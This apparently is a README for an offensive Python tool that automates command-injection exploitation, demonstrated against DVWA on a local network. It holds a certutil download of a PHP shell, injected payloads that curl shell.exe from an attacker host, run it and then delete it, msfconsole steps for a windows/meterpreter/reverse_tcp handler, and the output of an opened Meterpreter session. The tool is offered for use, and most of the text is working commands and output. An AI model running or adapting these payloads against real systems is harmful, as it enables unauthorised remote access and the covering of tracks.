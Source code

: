 certutil -urlcache -f http://192.168.0.112/shell.php shell.php

## My Tool

This tool can be utilised when attacker has found a field with command injection possible.  It will automate the process and will provide you with a meterpreter shell.

- You'll need a **webserver** running at **port 80** in same directory as script. (tool will prompt you).
- You'll need **msfvenom** and **msfconsole** installed.

### Usage

```
./command_injection.py -u http://192.168.0.104/dvwa/vulnerabilities/exec/ -c "PHPSESSID:ggc66turb492nrus71o8u34a20;security:high;" -t "ip" -p "Submit:Submit;" -m post --LHOST 192.168.0.111 --LPORT 4444


usage: command_inejction.py [-h] [-p PARAM] [-t TARGET] [-u URL] [-c COOKIES]
                            [-m METHOD] [-lh LHOST] [-lp LPORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PARAM, --param PARAM
                        Param: -p Submit:Submit;Login:Login;
  -t TARGET, --target TARGET
                        Target Param: -t ip
  -u URL, --url URL     URL: -u http://127.0.0.1/
  -c COOKIES, --cookies COOKIES
                        Cookies: -c PHPSESSID:f8ucrbu0qmta4ettc3208gcvnq&
                        security:low
  -m METHOD, --method METHOD
                        Method: -m get OR -m POST
  -lh LHOST, --LHOST LHOST
                        LHOST: -lh 192.168.0.112
  -lp LPORT, --LPORT LPORT
                        LPORT: -lp 8080
```

### Step 1
- Run the program.
```
./command_injection.py -u http://192.168.0.104/dvwa/vulnerabilities/exec/ -c "PHPSESSID:ggc66turb492nrus71o8u34a20;security:high;" -t "ip" -p "Submit:Submit;" -m post --LHOST 192.168.0.111 --LPORT 4444
```
- Output
```
[+] You'll need to host a web server at 192.168.0.111:4444 at path /home/baba/GitHub/hunting-automated/command_injection.
[...] sudo python3 -m http.server 80
[*] Hit enter once done... 
```
### Step 2
- Start a web server in same directory as command_injection.py.
```
sudo python3 -m http.server 80
```
- Hit Enter

```
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |curl 192.168.0.111/shell.exe -o shell.exe
[+] You'll need to start a handler at LHOST:192.168.0.111, LPORT:4444 in msfconsole. 
        Set Payload to windows/meterpreter/reverse_tcp. Set RHOST to 
[*] Hit enter once done... 
```
### Step 3
- Start metasplpoit and multi/handler.
```
msfconsole

msf6 > use multi/handler  
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf6 exploit(multi/handler) > set LHOST 192.168.0.111
LHOST => 192.168.0.111

msf6 exploit(multi/handler) > run  
  
[*] Started reverse TCP handler on 192.168.0.111:4444

```
- Hit Enter
```
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |shell.exe
```
- We have shell
```
[*] Sending stage (175174 bytes) to 192.168.0.104  
[*] Meterpreter session 1 opened (192.168.0.111:4444 -> 192.168.0.104:50322) at 2021-01-18 20:04:17 +0530  
  
meterpreter > 
```

- Finally, when you exit or close the session. It will remove all the files created for it to work.

```
[-] Cleaning up...
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |del shell.exe

```